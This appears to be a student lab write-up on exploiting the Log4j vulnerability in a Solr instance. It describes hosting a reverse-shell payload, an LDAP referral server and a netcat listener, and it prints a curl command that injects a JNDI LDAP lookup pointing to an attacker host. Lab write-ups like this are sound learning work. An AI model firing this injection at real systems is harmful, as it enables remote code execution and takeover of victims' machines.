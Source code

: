 ![Task 5.1](./img/Lab5/Task5.1.png)

The second step was to open a new terminal (since LDAP is waiting) to prepare the final payload and the secondary HTTP server
The log4j vulnerability will allow arbitrary code to be executed. The script that has been created will allow system commands to be executed, in this case a reverse-shell will be retrieved in order to gain control over the victim's machine.
Next is the payload code:

![Task 5.2](./img/Lab5/Task5.2.png)

Once the payload had been created and compiled, it was hosted by creating a temporary HTTP server (as mentioned above).

![Task 5.3](./img/Lab5/Task5.3.png)

With everything else ready for the attack (payload, HTTP server and the LDAP referral server), a netcat listener was then set up to pick up the reverse shell in another new terminal window. 
Then the exploit was activated and fired off the JNDI syntax. The following command was executed: `curl "http:10.10.182.193:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.244.181:1393/Exploit\}"`

![Task 5.4](./img/Lab5/Task5.4.png)
